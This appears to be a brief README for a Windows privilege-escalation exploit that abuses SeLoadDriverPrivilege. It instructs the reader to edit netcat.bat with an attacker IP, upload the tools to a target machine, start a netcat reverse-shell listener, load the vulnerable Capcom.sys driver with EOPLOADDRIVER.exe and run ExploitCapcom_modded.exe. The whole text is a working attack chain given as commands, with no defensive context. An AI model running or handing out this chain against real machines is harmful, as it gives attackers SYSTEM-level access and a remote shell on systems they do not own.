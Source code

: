 # SeLoadDriverPrivilege

1. Edit netcat.bat to add your IP
2. Upload all the files on the Target Machine
3. Start netcat listener
```csharp
rlwrap -cAr nc -lvnp 2222
```
4. Run below commands 
```csharp
.\EOPLOADDRIVER.exe System\CurrentControlSet\MyService C:\temp\capcom.sys
```

```csharp
.\ExploitCapcom_modded.exe
```
